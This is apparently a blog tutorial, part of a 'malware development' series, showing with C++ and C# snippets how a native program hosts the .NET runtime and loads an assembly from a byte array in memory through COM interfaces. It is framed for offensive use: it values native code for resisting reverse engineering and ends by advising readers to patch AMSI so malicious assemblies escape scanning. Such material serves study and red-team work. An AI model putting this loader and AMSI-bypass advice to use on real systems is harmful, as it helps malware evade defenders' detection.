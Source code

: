 ```yaml
---
title: Malware development part 9 - hosting CLR and managed code injection
layout: post
---
```


## Introduction
This is the 9th post of a series which regards the development of malicious software. In this series we will explore and try to implement multiple techniques used by malicious applications to execute code, hide from defenses and persist.  
Today we explore techniques for executing managed code from a native code.

Note: We are working with 64-bit code here, as usual.
## Unmanaged vs managed code
Unmanaged (native) code is compiled directly to assembly which is interpreted by a processor. Managed code is compiled to some intermediate representation (bytecode) which is interpreted by a runtime. The runtime can also manage memory, collect garbage etc.

Generally it's easier to develop apps using managed languages like Java or .NET because developer doesn't need to bother with memory allocation, freeing and other low-level stuff. Runtime provides abstraction from these low-level operations and system API, sometimes even allowing cross-platform development (e.g. .NET Core).

However sometimes developers can benefit from direct integration with operating system's API and memory offered by native languages (like C/C++). And most importantly (from malware developer's perspective) - native code is more difficult to reverse engineer and offers more possibilities for obfuscation.

## .NET runtime hosting
Managed assembly (executable or DLL) when loaded via `CreateProcess` or `LoadLibrary` is interpreted by Windows loader and the loading routine initializes the CLR (Common Language Runtime). In a PE file there's a `COM Descriptor Directory` which contains .NET metadata and its presence indicates the very fact that the PE contains managed code.

However it is possible to manually host the CLR from a native application using [CLR Hosting interfaces](https://docs.microsoft.com/en-us/dotnet/framework/unmanaged-api/hosting/clr-hosting-interfaces).

`mscoree.dll` implements functions that we can use for CLR hosting. There is `ICLRRuntimeHost` interface which can be used to start the CLR runtime and execute an assembly from disk. The code is as simple as:

```c
ICLRMetaHost* metaHost = NULL;
CLRCreateInstance(CLSID_CLRMetaHost, IID_ICLRMetaHost, (LPVOID*)&metaHost);
ICLRRuntimeInfo* runtimeInfo = NULL;
metaHost->GetRuntime(L"v4.0.30319", IID_ICLRRuntimeInfo, (LPVOID*)&runtimeInfo);
ICLRRuntimeHost* runtimeHost = NULL;
runtimeInfo->GetInterface(CLSID_CLRRuntimeHost, IID_ICLRRuntimeHost, (LPVOID*)&runtimeHost);
runtimeHost->Start();
DWORD retVal;
CLRRuntimeHost->ExecuteInDefaultAppDomain(L"path_to_assembly", L"Namespace.Class", L"MethodName", L"argument", &retVal);
```

According to [documentation](https://docs.microsoft.com/en-us/dotnet/framework/unmanaged-api/hosting/iclrruntimehost-executeindefaultappdomain-method) the managed method to execute must have the following signature:

```c#
static int pwzMethodName (String pwzArgument)
```

## Executing .NET code in memory
However it is not that simple to execute a managed assembly stored for example as a byte array in memory. To do this we must refer to a deprecated `ICorRuntimeHost` interface. It allows more control over the managed runtime from the native code.

So instead of `CLRRuntimeHost` we want `CorRuntimeHost` and that's what we ask for using [`ICLRRuntimeInfo::GetInterface`](https://docs.microsoft.com/en-us/dotnet/framework/unmanaged-api/hosting/iclrruntimeinfo-getinterface-method):

```c
ICorRuntimeHost* corRuntimeHost = NULL;
runtimeInfo->GetInterface(CLSID_CorRuntimeHost, IID_ICorRuntimeHost, (LPVOID*)&corRuntimeHost);
```

To execute a managed assembly in memory we will use managed methods and some reflection:

```c#
Assembly managedAssembly = AppDomain.CurrentDomain.Load(assemblyByteArray);
Type managedType = managedAssembly.GetType("Namespace.Class");
object[] parameters = new object[1] {("Argument_1")};
managedType.InvokeMember("MethodName", BindingFlags.Public | BindingFlags.InvokeMethod | BindingFlags.Static, null, null, parameters);
```

But how to execute this managed code from an unmanaged CLR host? We will leverage Component Object Model.

It is possible to [expose .NET components to COM](https://docs.microsoft.com/en-us/dotnet/framework/interop/exposing-dotnet-components-to-com).

.NET framework system assemblies are compiled with COM interoperability enabled, so it's possible to call public methods from "outside" of the CLR.

To start, we need an unmanaged reference (pointer) to an AppDomain. Application domains are containters that provide isolation boundary within single runtime host. That's where `CorRuntimeHost` interface comes in handy - it allows to retrieve the default AppDomain for current process:

```c
IUnknown* appDomainThunk;
pCorRuntimeHost->GetDefaultDomain(&appDomainThunk);
_AppDomain* defaultAppDomain = NULL;
appDomainThunk->QueryInterface(&defaultAppDomain);
```
At this point we can rewrite the .NET code using C++ and COM.

### Accessing mscorlib from C++ using COM
All the code we need is located in `mscorlib.dll` which is a managed library of common .NET types and methods.

First of all we need to somehow "translate" the COM interfaces defined in `mscorlib` library to a format understood by C++ compiler, like a header defining external function names, signatures and types (so imports, memory offsets, stack alignment for function calls etc.).

There is a [Type Library Exporter](https://docs.microsoft.com/en-us/dotnet/framework/tools/tlbexp-exe-type-library-exporter) tool (`tlbexp.exe`) which we can use to create a type library from a managed assembly. Type library files should be present after Visual Studio and .NET workload installation but let's create and analyze them manually:

`tlbexp.exe mscorlib.dll`

`.tlb` file can be viewed with OLE-COM Object Viewer (`oleview.exe`, part of Visual C++ SDK)

Let's take a look at the .NET code for in-memory assembly loading:

```c#
Assembly managedAssembly = AppDomain.CurrentDomain.Load(assemblyByteArray);
```

In our case, `CurrentDomain` is the `_AppDomain* defaultAppDomain` pointer. So we need to find a `Load(byte[])` function exported as COM interface.

![oleview](../images/2021-06-17-Malware_development_part_9/oleview.png)

We can see that separate COM interface function is declared for every overload of `AppDomain.Load` method. We specifically target the overload which uses byte array storing the raw assembly as only parameter. So `Assembly AppDomain.Load(byte[] rawAssembly)` becomes `HRESULT _stdcall Load_3([in] SAFEARRAY(unsigned char) rawAssembly, [out, retval] _Assembly** pRetVal);`.  Values are returned by reference using the last parameter.

Another thing is that we can't just provide an unmanaged byte array to this function, we need to create a [SAFEARRAY](https://docs.microsoft.com/en-us/archive/msdn-magazine/2017/march/introducing-the-safearray-data-structure). This is another piece of complicated COM/OLE automation. Note: `VT_UI1` used in `SafeArrayCreate` is `VARTYPE` corresponding to `unsigned char`/`byte` array.

```c
SAFEARRAYBOUND bounds[1];
bounds[0].cElements = sizeof (rawAssemblyByteArray);
bounds[0].lLbound = 0;
SAFEARRAY* safeArray = SafeArrayCreate(VT_UI1, 1, bounds);
SafeArrayLock(safeArray);
memcpy(safeArray->pvData, rawAssemblyByteArray, sizeof (rawAssemblyByteArray));
SafeArrayUnlock(safeArray);
_AssemblyPtr managedAssembly = NULL;
```

Finally, load the assembly to the AppDomain:

```c
defaultAppDomain->Load_3(safeArray, &managedAssembly)
```

Next step is to get reference to a type defined in the assembly. This line:

```c#
Type managedType = managedAssembly.GetType("Namespace.Class");
```

translates to:

```c
_TypePtr managedType = NULL;
_bstr_t managedClassName("ManagedApp.Program");
managedAssembly->GetType_2(managedClassName, &managedType);
```

Now let's create an array of arguments. So to do this:

```c#
object[] parameters = new object[1] {("Argument_1")};
```

we need to use `SAFEARRAY` again with `VARTYPE` corresponding to [`VARIANT`](https://docs.microsoft.com/en-us/windows/win32/winauto/variant-structure) which is another COM/OLE-specific data structure used for example to hold strings:

```c
SAFEARRAY* managedArguments = SafeArrayCreateVector(VT_VARIANT, 0, 1);
_variant_t argument(L"Argument_1");
LONG index = 0;
SafeArrayPutElement(managedArguments, &index, &argument);
```

Last thing is to call a function by its name:

```c#
managedType.InvokeMember("EntryPoint", BindingFlags.Public | BindingFlags.InvokeMethod | BindingFlags.Static, null, null, parameters);
```

```c
_bstr_t managedMethodName(L"EntryPoint");
_variant_t managedReturnValue;
_variant_t empty;
managedType->InvokeMember_3(
	managedMethodName,
	static_cast<BindingFlags>(BindingFlags_InvokeMethod | BindingFlags_Static | BindingFlags_Public),
	NULL, empty, managedArguments, &managedReturnValue);
```

## Summary
The piece of code I described for loading .NET assembly purely in memory has been known for many years but I couldn't find any good explanation on how it works. Hopefully somebody finds this interesting.

I've also spent some time on trying to use `ICLRRuntimeHost` instead of deprecated `ICorRuntimeHost` but I couldn't find an easy and elegant way to execute assembly in memory, especially to retrieve a pointer to an `AppDomain`. It seems to me that only possible solution would be to load some small assembly which would return a unmanaged pointer to a managed function using `GetFunctionPointerForDelegate` and then call it using [`ICLRRuntimeHost::ExecuteInAppDomain` method](https://docs.microsoft.com/en-us/dotnet/framework/unmanaged-api/hosting/iclrruntimehost-executeinappdomain-method) which isn't well documented at all. Anyway, [here's an example on stackoverflow.com](https://docs.microsoft.com/en-us/dotnet/framework/unmanaged-api/hosting/iclrruntimehost-executeinappdomain-method) which I haven't checked.

One more thing: remember to patch AMSI if you're injecting some "malicious" assembly because `AppDomain.Load(byte[])` (or `_AppDomain::Load_3()`) uses AMSI to scan the binary for indicators of malicious intents. See [this piece of .NET runtime source code](https://github.com/dotnet/runtime/blob/main/src/coreclr/vm/peimagelayout.cpp#L347) for details.
